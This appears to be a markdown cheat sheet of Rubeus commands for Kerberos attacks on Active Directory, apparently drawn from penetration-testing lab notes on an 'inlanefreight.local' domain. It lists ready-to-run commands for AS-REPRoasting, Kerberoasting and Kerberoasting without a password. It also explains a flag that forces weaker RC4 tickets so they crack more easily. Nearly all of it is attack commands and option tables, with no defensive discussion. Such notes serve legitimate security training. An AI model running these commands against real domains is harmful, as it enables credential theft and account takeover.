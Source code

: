 ### AS-REPRoasting
```powershell
Rubeus.exe asreproast /format:hashcat # Enumeration
Rubeus.exe asreproast /user:Target.user /domain:inlanefreight.local /dc:dc01.inlanefreight.local /nowrap /outfile:hashes.txt # Attack
```

---
### kerberosting
```
Rubeus.exe kerberoast /nowrap
```

| Option                         | Description                                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| ------------------------------ | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `/outfile:filename.txt`        | write the result to a file.                                                                                                                                                                                                                                                                                                                                                                                                                                               |
| `/pwdsetafter` `/pwdsetbefore` | Kerberoast accounts whose password was set within a particular date                                                                                                                                                                                                                                                                                                                                                                                                       |
| `/stats`                       | list statistics about Kerberoastable accounts without sending any ticket requests. This can be useful for gathering information and checking the types of encryption the account tickets use.                                                                                                                                                                                                                                                                             |
| `/tgtdeleg`                    | useful for us in situations where we find accounts with the options `This account supports Kerberos AES 128-bit encryption` or `This account supports Kerberos AES 256-bit encryption` set, meaning that when we perform a Kerberoast attack, we will get a `AES-128 (type 17)` or `AES-256 (type 18)` TGS tickets back which can be significantly more difficult to crack than `RC4 (type 23)` tickets. we can use `/tgtdeleg` flag with Rubeus to force RC4 encryption. |
#### Kerberoasting without an Account Password
```batch
Rubeus.exe createnetonly /program:cmd.exe /show
Rubeus.exe kerberoast REM Error we need 
Rubeus.exe kerberoast /nopreauth:amber.smith /domain:inlanefreight.local /spn:MSSQLSvc/SQL01:1433 /nowrap
```
**Note:** Instead of `/spn` we can use `/spns:listofspn.txt` to try multiple SPNs.

| Option          | Description                                   |
| --------------- | --------------------------------------------- |
| `createnetonly` | utilize its CMD window to perform the attack. |

---

